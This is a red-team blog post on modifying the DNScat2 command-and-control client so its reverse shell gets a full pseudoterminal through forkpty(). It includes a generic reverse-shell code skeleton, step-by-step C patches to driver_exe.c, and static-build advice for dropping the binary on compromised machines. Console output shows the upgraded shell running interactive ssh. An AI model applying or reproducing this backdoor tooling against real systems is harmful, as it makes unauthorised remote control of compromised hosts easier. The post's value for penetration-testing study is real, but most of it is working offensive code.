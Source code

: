 ```yaml
---
layout: post
title: Beyond pty.spawn - use pseudoterminals in your reverse shells (DNScat2 example)
date: 2018-05-08 12:00:00
categories: posts
en: true
description: Quick article about how to improve well-known tools used in pentests. Forkpty() FTW!!
keywords: "forkpty, pseudoterminal, shell, backdoor, redteam, pentest"
authors:
    - X-C3LL
---
```



&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
Something that boils me since few years ago is the fashion of using "pty.spawn" and similar tricks to get a pseudoterminal. You does not always have python installed in the machine that you just compromised, so if you are going to drop a custom binary in that machine there is no reason to not to do the things "well". Without a pty, stuff like doing a ssh to other server, using sudo, vim, etc. is a pain in the ass. Of course there are tons of tricks to avoid this issues, but it is far better if we can avoid to use external help when we just can run a child process inside a pty just editing few lines. In this post we are going to edit a well-known tool [DNSCat2](https://github.com/iagox86/dnscat2) in order to obtain a shell inside a pty.


## From fork() to forkpty()

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
Almost every tool or code snippet used to obtain a reverse shell uses a similar skeleton that we can simplify to something like this:

```c
...
pid = fork();
if (pid == -1) {
	fprintf(stderr, "F*cked!\n");
}

if (pid == 0) { // Child process...
	//Magic is a socket, a pipe, whatever...
	dup2(magic, STDIN_FILENO);
	dup2(magic, STDOUT_FILENO);
	dup2(magic, STDERR_FILENO);
	execlp("/bin/sh", "pwned", NULL);
	exit(0);
}

//Daddy's code...
...
```

We can use fork() to fork our process and call the /bin/sh binary, or we can call the cool __forkpty()__. Forkpty() is where all the magic lies:

```
DESCRIPTION
  The openpty() function finds an available pseudoterminal and returns file descriptors for the master and slave in amaster and aslave.  If name is not NULL, the filename of the slave is returned in name.  If termp is not NULL, the terminal parameters of the slave will be set to the values in termp.  If
  winp is not NULL, the window size of the slave will be set to the values in winp.

  The login_tty() function prepares for a login on the terminal fd (which may be a real terminal device, or the slave of a pseudoterminal as returned by openpty()) by creating a new session, making fd the controlling terminal for the calling process, setting fd to be  the  standard  input,  output,  and
  error streams of the current process, and closing fd.

  The  forkpty()  function  combines openpty(), fork(2), and login_tty() to create a new process operating in a pseudoterminal.  The file descriptor of the master side of the pseudoterminal is returned in amaster, and the filename of the slave in name if it is not NULL.  The termp and winp arguments, if
  not NULL, will determine the terminal attributes and window size of the slave side of the pseudoterminal.
```

So if we use forkpty(), when we do our execlp("/bin/sh"...) the shell process will be run inside a pseudoterminal. No more pty.spawn, expect, script, stty...

## Improving DNScat2
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
It is the moment to put our hands dirty. Download the code from github (https://github.com/iagox86/dnscat2/ ) and vim the file __client/drivers/driver_exe.c__.
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
1. First we are going to add the includes needed:

```c
...
#include <pty.h>
#include <termios.h>
...
```

2. Search the line `driver->pid = fork();` and edit it to use forkpty() (the original code is commented):

```
/*driver->pid = fork();*/  
   int terminalfd; // We are going to read & write to our child through it

   driver->pid = forkpty(&terminalfd, NULL, NULL, NULL); 
   if(driver->pid == -1)
   {  
LOG_FATAL("exec: couldn't create process (%d)", errno);    
exit(1);
   }  

   /* If we're in the child process... */    
   if(driver->pid == 0)
   {  
/* Copy the pipes.
if(dup2(driver->pipe_stdin[PIPE_READ], STDIN_FILENO) == -1)
  nbdie("exec: couldn't duplicate STDIN handle");   

if(dup2(driver->pipe_stdout[PIPE_WRITE], STDOUT_FILENO) == -1)  
  nbdie("exec: couldn't duplicate STDOUT handle");  

if(dup2(driver->pipe_stdout[PIPE_WRITE], STDERR_FILENO) == -1)  
  nbdie("exec: couldn't duplicate STDERR handle");  

 Execute the new process.
  */  
execlp("/bin/sh", "sh", "-c", driver->process, (char*) NULL);   

/* If execlp returns, bad stuff happened. */   
LOG_FATAL("exec: execlp failed (%d)", errno);  
exit(1);
   }  
```
3. We need to add our "terminalfd" to the "driver" structure:

```c
/* Add the sub-process's stdout as a socket. */      
   /*      
   select_group_add_socket(driver->group, driver->pipe_stdout[PIPE_READ], SOCKET_TYPE_STREAM, driver);        
   select_set_recv(driver->group,driver->pipe_stdout[PIPE_READ], exec_callback);   
   select_set_closed(driver->group,       driver->pipe_stdout[PIPE_READ], exec_closed_callback);     
  */       
  
   struct termios terminal;  
   tcgetattr(terminalfd, &terminal);  // Get the attributes to change few of them
   terminal.c_lflag &= ~ECHO; 
   terminal.c_lflag &= ~ICANON;  
   tcsetattr(terminalfd, TCSANOW, &terminal);  // Set again the attributes
  
   driver->pipe_stdout[PIPE_READ] =  terminalfd; // Use it to read the output of our child  
   driver->pipe_stdin[PIPE_WRITE] = terminalfd; // Use it to write to the input of our child 
  
   select_group_add_socket(driver->group, driver->pipe_stdout[PIPE_READ], SOCKET_TYPE_STREAM, driver);        
   select_set_recv(driver->group,driver->pipe_stdout[PIPE_READ], exec_callback);   
   select_set_closed(driver->group,       driver->pipe_stdout[PIPE_READ], exec_closed_callback);     
```

4. Lastly we need to add the flags -static (if we want a static compilation just ready to work when it is dropped in a compromised machine) and -lutil to link the libraries needed.
5. `make`. Et voilà!
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
When we try to ssh other server using the original version (just download from github and compile), we see the next error message:
```
command (localhost.localdomain) 1> window -i 2
New window created: 2
history_size (session) => 1000
Session 2 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)
This is a console session!

That means that anything you type will be sent as-is to the
client, and anything they type will be displayed as-is on the
screen! If the client is executing a command and you don't
see a prompt, try typing 'pwd' or something!

To go back, type ctrl-z.

sh (localhost.localdomain) 2> ssh harlock@localhost
sh (localhost.localdomain) 2> Pseudo-terminal will not be allocated because stdin is not a terminal.

sh (localhost.localdomain) 2> 
```

With our modified version, everything works like a charm:

```
command (localhost.localdomain) 1> window -i 2
New window created: 2
history_size (session) => 1000
Session 2 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)
This is a console session!

That means that anything you type will be sent as-is to the
client, and anything they type will be displayed as-is on the
screen! If the client is executing a command and you don't
see a prompt, try typing 'pwd' or something!

To go back, type ctrl-z.

sh-4.2$
sh (localhost.localdomain) 2> ssh harlock@localhost
sh (localhost.localdomain) 2> harlock@localhost's password: FunkyPassword
sh (localhost.localdomain) 2>
Last login: Wed May  9 09:21:41 2018

[harlock@localhost]->~ ⌚ 13:58:48
```

Nice :)!

## Final words

We used DNSCat2 as example because it is a really cool project. You can extrapolate the modus operandi and use it in other projects.
As I always say, if you find any typo or wanna comment something, feel free to reach me at twitter [@TheXC3LL](https://twitter.com/TheXC3LL)
